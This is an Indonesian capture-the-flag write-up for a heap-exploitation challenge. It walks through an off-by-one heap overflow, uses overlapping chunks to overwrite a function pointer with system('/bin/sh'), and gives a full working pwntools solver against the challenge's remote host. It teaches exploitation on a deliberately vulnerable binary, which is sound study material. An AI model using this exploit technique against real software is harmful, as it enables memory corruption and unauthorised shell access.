 # Coloring (0 solves)

Challenge ini merupakan pengenalan dari heap exploitation. Seperti chall-chall pwn saya yang lain, diberikan source code dari program yang akan dieksploitasi sehingga kita tidak perlu kesulitan untuk memahami apa yang program ini lakukan dan bisa fokus di pencarian vulnerability dan eksploitasi.

Singkat cerita, vulnerability di program ini terdapat pada saat melakukan create text, tepatnya pada size yang dialokasikan.
```c
    texts[index] = malloc(sizeof(color_text) + size - 1);
```
> Jika anda penasaran kenapa ditambah `sizeof(color_text)`, silahkan baca mengenai [Flexible Array Member](https://en.wikipedia.org/wiki/Flexible_array_member)

Terlihat bahwa size yang dialokasikan dikurangi 1 byte. Hal ini merupakan sebuah bug karena selanjutnya program akan meminta user untuk mengisi buffer dengan string berukuran `size`
```c
    printf("Text: ");
    int n = read(STDIN_FILENO, texts[index]->text, size);
```
Konsekuensinya, terdapat buffer overflow sebesar 1 byte.

Lalu apa yang akan terjadi?

Ayo kita coba alokasikan 2 buah text berukuran 20 dan lihat seperti apa strukturnya di dalam heap arena

```
0x405000|+0x00000|+0x00000: 0x0000000000000000 0x0000000000000291 | ................ | 
0x405010|+0x00010|+0x00010: 0x0000000000000000 0x0000000000000000 | ................ | 
* 39 lines, 0x270 bytes
0x405290|+0x00000|+0x00290: 0x0000000000000000 0x0000000000000031 | ........1....... | 
0x4052a0|+0x00010|+0x002a0: 0x00000000004011c6 0x0000312054584554 | ..@.....TEXT 1.. | 
0x4052b0|+0x00020|+0x002b0: 0x0000000000000000 0x0000000000000000 | ................ | 
0x4052c0|+0x00000|+0x002c0: 0x0000000000000000 0x0000000000000031 | ........1....... | 
0x4052d0|+0x00010|+0x002d0: 0x00000000004011c6 0x0000322054584554 | ..@.....TEXT 2.. | 
0x4052e0|+0x00020|+0x002e0: 0x0000000000000000 0x0000000000000000 | ................ | 
0x4052f0|+0x00000|+0x002f0: 0x0000000000000000 0x0000000000020d11 | ................ |  <-  top
0x405300|+0x00010|+0x00300: 0x0000000000000000 0x0000000000000000 | ................ | 
* 8399 lines, 0x20cf0 bytes
```
Kedua text yang kita buat disimpan di dalam dua buah chunk yang berdampingan, yaitu
```
                                               0x0000000000000031 | ........1....... | 
0x4052a0|+0x00010|+0x002a0: 0x00000000004011c6 0x0000312054584554 | ..@.....TEXT 1.. | 
0x4052b0|+0x00020|+0x002b0: 0x0000000000000000 0x0000000000000000 | ................ | 
0x4052c0|+0x00000|+0x002c0: 0x0000000000000000
```
dan 
```
                                               0x0000000000000031 | ........1....... | 
0x4052d0|+0x00010|+0x002d0: 0x00000000004011c6 0x0000322054584554 | ..@.....TEXT 2.. | 
0x4052e0|+0x00020|+0x002e0: 0x0000000000000000 0x0000000000000000 | ................ | 
0x4052f0|+0x00000|+0x002f0: 0x0000000000000000
```
`0x0000000000000031` merupakan size dari chunk, `0x00000000004011ef` adalah value dari field color_printer, dan data selanjutnya adalah text yang kita input.

Perhatikan bahwa terdapat size dari chunk tepat setelah text buffer. Ini artinya, kita bisa memanfaatkan buffer overfow sebesar 1 byte tersebut untuk mengoverwrite size dari chunk sebelahnya. Namun, untuk melakukan ini kita harus memilih size yang tepat, yaitu memenuhi syarat total_size >= 0x18 dan total_size & 0xf == 8, dengan total_size = sizeof(color_text) + size - 1. Karena sizeof(color_text) = 8, maka total_size = size + 7. Salah satu size yang memenuhi adalah 17, yang berarti total_size = 24 = 0x18.

Ayo kita coba alokasikan 2 buah text lagi berukuran 17, tetapi isi text kedua sampai penuh (17 karakter)

```
0x405000|+0x00000|+0x00000: 0x0000000000000000 0x0000000000000291 | ................ |                 
0x405010|+0x00010|+0x00010: 0x0000000000000000 0x0000000000000000 | ................ | 
* 39 lines, 0x270 bytes
0x405290|+0x00000|+0x00290: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052a0|+0x00010|+0x002a0: 0x00000000004011c6 0x0000312054584554 | ..@.....TEXT 1.. | 
0x4052b0|+0x00000|+0x002b0: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052c0|+0x00010|+0x002c0: 0x00000000004011c6 0x4141414141414141 | ..@.....AAAAAAAA | 
[!] Corrupted (addr + chunk.size > sect.page_end)
0x4052d0|+0x00000|+0x002d0: 0x4141414141414141 0x0000000000020d41 | AAAAAAAAA....... |  <-  top
```
Terlihat bahwa terdapat kerusakan pada top chunk karena 1 byte dari field size-nya teroverwrite dengan 'A'. Terbukti bahwa kita bisa mengoverwrite size dari next chunk.

Hal yang bisa kita lakukan dengan hal tersebut yaitu membuat sebuah situasi dimana tedapat 2 chunk yang saling beririsan sehingga kita bisa mengoverwrite data dari salah satu chunk. Untuk mencapai situasi tersebut, perhatikan struktur heap setelah membuat 3 buah text.
```
0x405000|+0x00000|+0x00000: 0x0000000000000000 0x0000000000000291 | ................ | 
0x405010|+0x00010|+0x00010: 0x0000000000000000 0x0000000000000000 | ................ | 
* 39 lines, 0x270 bytes
0x405290|+0x00000|+0x00290: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052a0|+0x00010|+0x002a0: 0x00000000004011c6 0x0000312054584554 | ..@.....TEXT 1.. | 
0x4052b0|+0x00000|+0x002b0: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052c0|+0x00010|+0x002c0: 0x00000000004011c6 0x0000322054584554 | ..@.....TEXT 2.. | 
0x4052d0|+0x00000|+0x002d0: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052e0|+0x00010|+0x002e0: 0x00000000004011c6 0x0000332054584554 | ..@.....TEXT 3.. | 
0x4052f0|+0x00000|+0x002f0: 0x0000000000000000 0x0000000000020d11 | ................ |  <-  top
0x405300|+0x00010|+0x00300: 0x0000000000000000 0x0000000000000000 | ................ | 
* 8399 lines, 0x20cf0 bytes
```
Jika kita mengoverwrite size dari chunk kedua menjadi 0x41, maka kita bisa membuat chunk 2 dan chunk 3 menjadi saling beririsan. Alhasil kita bisa mengoverwrite data yang terdapat pada chunk 3. Target yang akan kita overwrite adalah field color_printer yang merupakan sebuah function pointer yang akan dipanggil di dalam fungsi print_text. Kita akan mengoverwrite-nya menjadi fungsi system, sehingga jika kita memiliki text "/bin/sh", maka system("/bin/sh") akan terpanggil ketika kita ingin melakukan print text tersebut.

Full solver:
```python
#!/usr/bin/env python3

import ctypes

from pwn import *

context.terminal = "kitty @launch --location=split --cwd=current".split()


def start(argv=[], *a, **kw):
    if args.LOCAL:
        argv = argv if argv else [exe.path]
        if args.GDB:
            return gdb.debug(argv, gdbscript=gdbscript, *a, **kw)
        return process(argv, *a, **kw)
    return remote(args.HOST or host, args.PORT or port, *a, **kw)


def safe_flat(*args, unsafe_chars=b"\n", **kwargs):
    p = flat(args, **kwargs)
    if any(c in unsafe_chars for c in p):
        raise ValueError("unsafe:", p)
    return p


def create_text(index, size, color, text):
    io.sendlineafter(b">> ", b"1")
    io.sendlineafter(b"(1-16): ", str(index).encode())
    io.sendlineafter(b"Size: ", str(size).encode())
    io.sendlineafter(b"Color: ", str(color).encode())
    io.sendafter(b"Text: ", text)


def print_text(index):
    io.sendlineafter(b">> ", b"2")
    io.sendlineafter(b"(1-16): ", str(index).encode())


def delete_text(index):
    io.sendlineafter(b">> ", b"3")
    io.sendlineafter(b"(1-16): ", str(index).encode())


gdbscript = """
c
"""
host, port = args.HOST or "108.137.70.166", args.PORT or 16000
exe = context.binary = ELF(args.EXE or "../src/chall", False)

io = start()

create_text(1, 17, 1, b"overflow me\n")
create_text(2, 17, 1, b"size\n")
create_text(3, 17, 1, b"printer\n")

delete_text(1)

create_text(1, 17, 1, safe_flat({16: b"\x41"}))

delete_text(2)

create_text(2, 49, 1, safe_flat({16: [0x21, exe.sym["system"], b"/bin/sh\0"]}))

print_text(3)

io.interactive()

```

> Urutan operasi yang dilakukan sangat penting. Silahkan anda debug sendiri untuk mencari tahu kenapa saya memilih urutan operasi seperti di atas
